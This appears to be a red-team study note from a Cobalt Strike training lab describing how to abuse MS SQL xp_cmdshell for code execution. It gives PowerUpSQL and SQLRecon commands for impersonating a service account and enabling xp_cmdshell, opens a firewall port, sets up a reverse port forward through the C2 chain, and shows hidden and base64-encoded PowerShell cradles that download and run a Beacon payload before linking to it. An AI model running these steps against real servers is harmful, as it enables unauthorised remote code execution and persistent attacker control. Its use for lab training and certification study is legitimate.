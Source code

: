 
The _xp_cmdshell_ procedure can be used to execute shell commands on the SQL server if you have sysadmin privileges.

#### 🖊️ checking the execution environment

1) Check if [PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) tool `invoke-sqloscmd` can help you execute commands:

`beacon> powershell Invoke-SQLOSCmd -Instance "sql-2.dev.cyberbotic.io,1433" -Command "whoami" -RawResults`

⚠ This is disabled in Heidi and mssqlclient. If you are using either of them check this section to enable it: [[Enable Invoke-SQLOSCmd]]

2) If you are working with SQLRecon it also has a module to interact with xp shell, and you can impersonate as well:

`execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc`

3) After impersonating, test if you can run commands:

`beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ixpcmd /i:DEV\mssql_svc /c:ipconfig`

#### 📔 Run payloads

1) With command execution, we can work towards executing a Beacon payload.  As with other servers in the lab, the SQL servers cannot talk directly to our team server in order to download a hosted payload.  Instead, we must setup a reverse port forward to tunnel that traffic through our C2 chain.

```
beacon> run hostname
wkstn-2

beacon> getuid
[*] You are DEV\bfarmer (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

2) Check open ports in the target server, a useful one could be SMB. Host the payload on the team server and download the payload into the MS SQL Server:

`powershell -w hidden -c "iex (new-object net.webclient).downloadstring('http://wkstn-2:8080/b')"`
Or
`powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdwBrAHMAdABuAC0AMgA6ADgAMAA4ADAALwBiACcAKQA=`

⚠ Experiment with using the [[Pivot Listener]] here instead of SMB.

3) Finally, link yourself to the beacon

`beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337`

![[mssqlsvc-beacon.png]]


#### ⚠ Opsec




### Properties
---
📆 created   {{21-02-2024}} 15:08
🏷️ tags: #redteam #crto 

---

